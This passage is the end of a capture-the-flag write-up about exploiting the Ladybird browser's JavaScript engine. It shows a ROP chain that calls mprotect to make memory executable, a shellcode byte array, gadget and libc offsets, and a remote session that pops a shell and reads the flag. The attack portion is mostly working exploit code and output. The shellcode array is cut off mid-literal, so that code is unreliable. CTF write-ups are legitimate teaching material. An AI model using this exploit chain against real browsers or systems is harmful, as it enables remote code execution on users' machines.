  p(binary + pop_rsi_o);        // rsi -> 0x1000 (size of page)
  p(0x1000n);
  p(binary + pop_rdx_o);        // rdx -> 0b111 (RWX permissions)
  p(0x07n);
  p(binary + mprotect_o);       // call mprotect
  p(victim_ab_buf);             // jump to shellcode

  // finish JS script execution to trigger shellcode
```

### xpl01t3d


To put it all together we need just fill one gap - omitted exploit offsets (they can be easily found in debugger) and `shellcode` (we'll use the default one [generated](./task/shellcode.py) with `pwntools` for popping shell): 
```JavaScript
// Generated with shellcode.py - just pops a shell
const shellcode_bytes = new Uint8Array([0x6a,0x68,0x48,0xb8,0x2f,0x62,0x69,0x6e,0x2f,0x2f,0x2f,0x73,0x50,0x48,0x89,0xe7,0x68,0x72,0x69,0x1,0x1,0x81,0x34,0x24,0x1,0x1,0x1,0x1,0x31,0xf6,0x56,0x6a,0x8,0x5e,0x48,;

// Default ROP gadgets - used to fill registers
const pop_rdi_o  = 0x00000000005758c4n // : pop rdi ; ret
const pop_rsi_o  = 0x00000000005756d5n // : pop rsi ; ret
const pop_rdx_o  = 0x000000000057c279n // : pop rdx ; ret
// mprotect PLT - used to get RWX page
const mprotect_o = 0x05747F0n

// Offset of leaked binary address - vtable of ArrayBuffer
const binary_leak_o    = 0x6d44000n + 0x1c7150n;
// Offset of read function in libc
const libc_leak_o      = 0xf8250n;
// Offset of read GOT entry in binary
const read_got_o       = 0x6FF6688n;
// Offset of environ in libc
const environ_o        = 0x1da320n;
// Offset of target ROP location from leaked stack address (environ)
const ret_o            = 0x1060n;
// Offset of vtable location from the begging of ArrayBuffer with OOB
const ab_vtable_o      = 0x58
// Offset of pointer localtion from the begging of ArrayBuffer with OOB
const victim_pointer_o = 0xa0
```

After that, we end up with the complete exploit [script](./task/exploit.js). We run it on the remote target and get the following:
```[*] Switching to interactive mode
Starting Ladybird...
248106.266 WebContent(26): (js log) "exploit"
248106.266 WebContent(26): Unable to get ...
248106.266 WebContent(26): EGL extensions: ...
248106.298 WebContent(26): Exported dma_buf fd: 15
248106.302 WebContent(26): (js log) "0x601351848000"
248106.302 WebContent(26): (js log) "0x601376a51490"
248106.302 WebContent(26): (js log) "0x60135883e688"
248106.302 WebContent(26): (js log) "0x73772e059000"
248106.302 WebContent(26): (js log) "0x7ffd6507cf68"
$ whoami
ctf
$ ls -l
total 44
drwxr-xr-x 2 root root  4096 Jun 22 11:08 bin
-rwx------ 1 root root    81 Jun 22 11:08 flag.txt
drwxr-xr-x 1 root root  4096 Jun 22 11:08 libexec
-rwsr-xr-x 1 root root 16264 Jun 20 16:12 read_flag
-r-xr-xr-x 1 root root    56 Jun 20 17:49 run.sh
-r-xr-xr-x 1 root root  1392 Jun 20 10:32 server.py
drwxr-xr-x 3 root root  4096 Jun 20 11:26 share
-r-xr-xr-x 1 root root    75 Jun 20 10:32 socat.sh
$ cat flag.txt
cat: flag.txt: Permission denied
$ ./read_flag
Flag: GPNCTF{finDIn6_7H3_vu1n_waS_eASy_Mak1ng_W3BG1_RUN_0N_LINuX_w4s_H4rD3r_LO1_48529}
```
And here is the flag:
```
GPNCTF{finDIn6_7H3_vu1n_waS_eASy_Mak1ng_W3BG1_RUN_0N_LINuX_w4s_H4rD3r_LO1_48529}
```

## Conclusion

It was definitely an interesting experience, and I want to thank the challenge author @intrigus for setting it up. Since `Ladybird` is still in the development stage, finding and exploiting this bug wasn’t too difficult - especially with the help of the GoPaTych LLM. But I hope that in the future, `Ladybird` will become more hardened and a more challenging target for attacks. Still, there’s a question worth thinking about: who will evolve faster - LLMs or browser hardenings?..



